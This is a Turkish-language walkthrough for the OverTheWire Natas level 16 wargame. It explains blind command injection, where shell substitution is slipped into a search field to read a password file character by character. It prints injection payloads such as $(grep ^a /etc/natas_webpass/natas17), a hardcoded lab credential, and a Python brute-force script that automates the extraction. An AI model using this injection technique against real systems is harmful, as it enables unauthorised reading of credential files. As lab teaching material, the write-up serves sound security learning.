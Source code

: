 Payload olarak $(cat /etc/natas_webpass/natas17) girdiğimizde bu komutun çıktısı passthru fonksiyonun içerisine yerleştirilecek, daha sonrasında dictionary.txt dosyasında bu satır aranacak. Dolayısıyla  böyle bir kullanımdan ziyade passhtru içerisindeki grep komutunu manipüle etmemiz, true-false mantığıyla veriyi inşaa etmemiz gerekiyor. 

"Hacker" kelimesi ile arama yaptığımızda  çıktı bu şekilde.
<figure>
<img src="/assets/img/natas/natas162.png">
</figure>

"Hacker$(grep ^a /etc/natas_webpass/natas17)"  şeklinde bir input girdiğimde çıktı yine aynı.

```
"grep ^a /etc/natas_webpass/natas17" ifadesi /etc/natas_webpass/natas17 dosyasından a harfi ile başlayan satırları getir anlamına geliyor.
```

Demek ki parola a harfi ile başlamıyor, yani grep ^a /etc/natas_webpass/natas17 komutunun çıktısı yok. Eğer ki a harfi ile başlasaydı bu komutun çıktısı natas17'ye ait parola olacaktı.Dolayısıyla ;

grep -i " " dictionary.txt ifadesinde çift tırnaklar arasına natas17'e ait parola gelicekti ve dictionary.txt dosyasında böyle bir satır olmadığı için çıktı boş olucaktı.

Parolanın 32 karakter uzunluğunda olduğunu bir önceki seviyelerden biliyoruz.Bununla birlikte parola küçük harf, büyük harf ve rakam içeriyor. Manuel bir test yapılamayacağından , otomatize eden bir script yazıyoruz.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
auth=HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
passwd=""
for i in range(32):
        for char in chars:
                s=requests.get('http://natas16.natas.labs.overthewire.org/index.php?needle=hacker$(grep ^'+passwd+char+' /etc/natas_webpass/natas17)',auth=auth)
                if "hacker" not in s.text:
                        passwd=passwd+char
                        print passwd
                        break
{% endhighlight %}
